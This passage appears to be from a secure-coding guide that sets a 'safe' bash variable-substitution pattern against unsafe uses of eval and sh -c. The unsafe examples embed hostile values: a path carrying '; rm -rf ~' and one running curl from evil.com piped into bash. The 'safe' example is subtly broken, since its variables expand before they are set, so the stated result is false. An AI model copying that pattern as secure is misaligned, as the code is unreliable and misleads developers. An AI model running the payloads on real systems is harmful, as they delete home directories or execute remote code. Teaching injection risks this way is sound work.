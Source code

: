 
### ✅ SAFE: String Replacement (Bash)

```bash
#!/usr/bin/env bash
PARAMETERS="--work-tree=$PROJECT_DIR --flag=$PROJECT_NAME"
PROJECT_DIR="/etc/nixos"
PROJECT_NAME="nixos"

# Replace variables with actual values
RESOLVED="${PARAMETERS//\$PROJECT_DIR/$PROJECT_DIR}"
RESOLVED="${RESOLVED//\$PROJECT_NAME/$PROJECT_NAME}"

# Result: "--work-tree=/etc/nixos --flag=nixos"

# Execute safely
exec command $RESOLVED  # Safe because RESOLVED contains no user input
```

**Why safe**:
- Original `PARAMETERS` is from registry (validated at build time)
- Only substituting known variables
- No shell metacharacters introduced

---

### ❌ UNSAFE: eval with Variable

```bash
#!/usr/bin/env bash
PROJECT_DIR="/tmp/normal; rm -rf ~"

# Concatenate into string
COMMAND="code $PROJECT_DIR"

# Execute with eval - VULNERABLE
eval "$COMMAND"

# Result: Executes "code /tmp/normal" THEN "rm -rf ~"
```

**Why unsafe**: `eval` interprets shell metacharacters in `$PROJECT_DIR`. Semicolon splits into two commands.

---

### ❌ UNSAFE: sh -c with Variable

```bash
#!/usr/bin/env bash
PROJECT_DIR="/tmp/test$(curl http://evil.com/payload.sh | bash)"

# Execute with sh -c - VULNERABLE
sh -c "code $PROJECT_DIR"

# Result: Downloads and executes remote payload
```
